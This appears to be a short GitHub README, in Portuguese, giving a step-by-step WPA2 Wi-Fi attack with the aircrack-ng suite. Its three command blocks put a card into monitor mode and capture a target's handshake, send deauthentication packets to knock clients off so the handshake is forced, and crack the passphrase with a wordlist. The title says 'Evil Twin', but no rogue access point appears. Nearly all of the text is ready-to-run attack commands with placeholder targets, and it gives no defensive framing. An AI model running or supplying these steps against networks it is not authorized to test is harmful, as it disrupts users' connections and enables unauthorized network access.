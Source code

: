 # Wifi-WPA2-Evil-Twin-Attack--aircrack-ng
![image](https://github.com/user-attachments/assets/0ce8e3d4-c42c-4ca3-8845-268b0c89843f)
![image](https://github.com/user-attachments/assets/a08cb55d-3a44-416b-8fd2-9d746264a2c9)

## 1. Capturar o Handshake
```bash
ifconfig wlan0 down
airmon-ng check kill
airmon-ng start wlan0
airodump-ng --essid-regex "Red*" -a wlan0mon
airodump-ng wlan0mon
mkdir wpa
cd wpa
airodump-ng --bssid BSSIDTARGET -c 11 -w cvr wlan0mon
```
## 2. Desautenticar para forçar o handshake
```bash
aireplay-ng -0 1 -a TARGETBSSID wlan0mon
# -0 = tipo do ataque (deauth)
# 1 = número de pacotes de desautenticação
# -a 00:17:9A:35:53:22 = Access Point (BSSID)
```

## 3. Brute force
```bash
aircrack-ng -b TARGETBSSID -w /usr/share/wordlists/dirb/big.txt cvr-01.cap
```
